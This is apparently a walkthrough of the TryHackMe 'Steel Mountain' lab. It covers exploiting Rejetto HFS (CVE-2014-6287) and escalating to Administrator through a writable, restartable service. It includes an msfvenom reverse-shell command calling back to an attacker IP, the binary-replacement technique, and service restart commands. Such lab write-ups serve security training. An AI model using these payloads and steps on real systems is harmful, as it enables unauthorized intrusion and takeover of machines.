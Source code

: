 # [Steel Mountain](https://tryhackme.com/room/steelmountain)

![SteelMountain](./images/SteelMountain.png)

## Task 1 -  Introduction

<img src="./images/task1-HVTz2Ca.png" height=150  width=auto>

In this room you will enumerate a Windows machine, gain initial access with Metasploit, use Powershell to further enumerate the machine and escalate your privileges to Administrator.

If you don't have the right security tools and environment, deploy your own Kali Linux machine and control it in your browser, with our [Kali Room](https://tryhackme.com/room/kali).

Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

### Answer the questions below

Deploy the machine.

* Who is the employee of the month?

    `Bill Harper`

    ![task1-image](./images/task1-image.png)

## Task 2 - Initial Access 

Now you have deployed the machine, lets get an initial shell!

### Answer the questions below

* Scan the machine with nmap. What is the other port running a web server on?

    `8080`

    Scan resulted [here](./files/task2-nmap)

    ![task2-nmap](./images/task2-nmap.png)

* Take a look at the other web server. What file server is running?

    `Rejetto HTTP File Server`

    * Open Http server via browser 

        ![task2-httpserver](./images/task2-httpserver.png)

    * Open Server information

        ![task2-server-info](./images/task2-server-info.png)

    * Open Link

        ![task2-rejetto.png]

* What is the CVE number to exploit this file server?

    `2014-6287`

    * Search sploit 

        ```
        searchsploit HFS 2.3 -w
        ```

        ![task2-search](./images/task2-search.png)

    * Open link

        ![task2-db](./images/task2-db.png)

* Use Metasploit to get an initial shell. What is the user flag?

    

## Task 3 - Privilege Escalation 

Now that you have an initial shell on this Windows machine as Bill, we can further enumerate the machine and escalate our privileges to root!

### Answer the questions below

To enumerate this machine, we will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities - _"PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."_

You can download the script [here](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1).  If you want to download it via the command line, be careful not to download the GitHub page instead of the raw script. Now you can use the upload command in Metasploit to upload the script.

![task3-meterpreter](./images/task3-meterpreter.png)

To execute this using Meterpreter, I will type load powershell into meterpreter. Then I will enter powershell by entering **powershell_shell**:

![task3-powershell](./images/task3-powershell.png)

* Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?

The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

Use msfvenom to generate a reverse shell as an Windows executable.

`msfvenom -p windows/shell_reverse_tcp LHOST=10.13.52.88 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe`

Upload your binary and replace the legitimate one. Then restart the program to get a shell as root.

Note: The service showed up as being unquoted (and could be exploited using this technique), however, in this case we have exploited weak file permissions on the service files instead.

* What is the root flag?

## Task 4 - Access and Escalation Without Metasploit

Now let's complete the room without the use of Metasploit.

For this we will utilise powershell and winPEAS to enumerate the system and collect the relevant information to escalate to

### Answer the questions below

To begin we shall be using the same CVE. However, this time let's use this [exploit](https://www.exploit-db.com/exploits/39161).

*Note that you will need to have a web server and a netcat listener active at the same time in order for this to work!*


To begin, you will need a netcat static binary on your web server. If you do not have one, you can download it from [GitHub](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe)!

You will need to run the exploit twice. The first time will pull our netcat binary to the system and the second will execute our payload to gain a callback!

Congratulations, we're now onto the system. Now we can pull winPEAS to the system using powershell -c.

Once we run winPeas, we see that it points us towards unquoted paths. We can see that it provides us with the name of the service it is also running.

![task4-ascservice](./images/task4-ascservice.png)

What powershell -c command could we run to manually find out the service name?

* *Format is "powershell -c "command here"*

Now let's escalate to Administrator with our new found knowledge.

Generate your payload using msfvenom and pull it to the system using powershell.


Now we can move our payload to the unquoted directory winPEAS alerted us to and restart the service with two commands.

First we need to stop the service which we can do like so;

sc stop AdvancedSystemCareService9

Shortly followed by;

sc start AdvancedSystemCareService9

Once this command runs, you will see you gain a shell as Administrator on our listener!
